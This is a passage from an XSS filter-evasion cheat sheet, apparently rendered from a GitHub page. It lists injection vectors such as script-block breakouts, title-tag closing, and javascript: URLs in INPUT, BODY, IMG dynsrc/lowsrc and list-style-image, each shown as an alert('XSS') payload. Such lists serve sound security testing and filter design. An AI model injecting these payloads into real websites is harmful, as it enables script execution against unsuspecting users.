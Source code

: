 <pre><code>\";alert('XSS');//
</code></pre>
<p>An alternative, if correct JSON or Javascript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:</p>
<pre><code>&lt;/script&gt;&lt;script&gt;alert('XSS');&lt;/script&gt;
</code></pre>
<h2><a id="user-content-end-title-tag" class="anchor" aria-hidden="true" href="#end-title-tag"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>End title tag</h2>
<p>This is a simple XSS vector that closes <code>&lt;TITLE&gt;</code> tags, which can encapsulate the malicious cross site scripting attack:</p>
<pre><code>&lt;/TITLE&gt;&lt;SCRIPT&gt;alert("XSS");&lt;/SCRIPT&gt;
</code></pre>
<h2><a id="user-content-input-image" class="anchor" aria-hidden="true" href="#input-image"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>INPUT image</h2>
<pre><code>&lt;INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-body-image" class="anchor" aria-hidden="true" href="#body-image"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>BODY image</h2>
<pre><code>&lt;BODY BACKGROUND="javascript:alert('XSS')"&gt;
</code></pre>
<h2><a id="user-content-img-dynsrc" class="anchor" aria-hidden="true" href="#img-dynsrc"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>IMG Dynsrc</h2>
<pre><code>&lt;IMG DYNSRC="javascript:alert('XSS')"&gt;
</code></pre>
<h2><a id="user-content-img-lowsrc" class="anchor" aria-hidden="true" href="#img-lowsrc"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>IMG lowsrc</h2>
<pre><code>&lt;IMG LOWSRC="javascript:alert('XSS')"&gt;
</code></pre>
<h2><a id="user-content-list-style-image" class="anchor" aria-hidden="true" href="#list-style-image"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>List-style-image</h2>
<p>Fairly esoteric issue dealing with embedding images for bulleted lists.
This will only work in the IE rendering engine because of the JavaScript
directive. Not a particularly useful cross site scripting vector:</p>
<pre><code>&lt;STYLE&gt;li {list-style-image: url("javascript:alert('XSS')");}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS&lt;/br&gt;
</code></pre>